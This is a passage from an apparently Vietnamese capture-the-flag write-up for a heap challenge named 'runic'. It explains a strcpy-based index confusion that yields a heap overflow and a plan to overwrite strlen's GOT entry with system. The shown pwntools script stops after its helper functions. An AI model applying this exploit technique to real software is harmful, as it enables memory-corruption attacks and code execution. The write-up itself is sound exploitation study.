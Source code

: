 ```c
  }
  return __readfsqword(0x28u) ^ v9;
}
```
1. Đọc old_name và new_name
2. Copy info và size từ `Maintable[hash(old_name)]` sang `Maintable[hash(new_name)]`
3. Copy `new_name` sang 8 byte đầu của chunk `info` bằng `strcpy`.
4. Clear `Maintable[hash(old_name)]`
5. Lấy index bằng 8 byte đầu của info: `vuln_idx = hash(old_info);` 
    rồi gọi `read(0, old_info + 8, MainTable[vuln_idx]->size);`

Vấn đề nằm ở bước 3, copy bằng `strcpy` khiến cho `info.name` có thể khác `Rune.name` . 

Từ đó ở bước 5, `vuln_idx` không nhất thiết bằng index của `Rune` mới khởi tạo mà có thể là `index` của `Rune` khác 
-> `MainTable[vuln_idx]->size` !=  `Rune.size`.

Ví dụ:
```python
create(p64(0),0x60,b"0"*0x60)
create(p64(0x01),0x10,b"1"*0x10)
edit(p64(0x01),p64(0x30)[::-1],b"B"*0x10+p64(0xd21))
```

Mình tạo `Rune_0` với size=0x60 và `Rune_1` với size=0x20.

Khi `edit` `Rune_1` với `new_name` là `\x00\x00\x30` thì `new_idx` sẽ là `0x30`,

nhưng do có `NULL` byte ở `new_name` nên `info.name` vẫn là `NULL` từ đó `vuln_idx=0` 

-> `read(0, Rune_1.info + 8,0x60)` trong khi `Rune_1.info` chỉ là chunk size `0x20` (heap overflow).

Tương tự như bài trước, mình ghi đè `strlen_got = system` , may mắn ở đây là hàm `show` gọi `puts(info+8)` nên mình chỉ cần tạo `Rune` có content là `/bin/sh`

Script:
```python
from pwn import *
from time import sleep
context.binary=e=ELF("./runic")
libc=e.libc
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript="""
            """)
            pause()
    elif args.REMOTE:
            p=remote(args.HOST,int(args.PORT))
    return p
def create(name: bytes,length: int,contest: bytes):
    p.sendlineafter(b"Action: \n",b"1")
    p.sendafter(b"Rune name: \n",name)
    p.sendlineafter(b"Rune length: ",str(length).encode())
    p.sendlineafter(b"Rune contents: \n",contest)
def delete(name: bytes):
    p.sendlineafter(b"Action: \n",b"2")
    p.sendafter(b"Rune name: \n",name)
def edit(old_name: bytes,new_name: bytes,contest: bytes):
    p.sendlineafter(b"Action: \n",b"3")
    p.sendafter(b"Rune name: \n",old_name)
    p.sendafter(b"New name: \n",new_name)
    p.sendafter(b"Rune contents: \n",contest)
def show(name: bytes):
    p.sendlineafter(b"Action: \n",b"4")
    p.sendafter(b"Rune name: \n",name)
```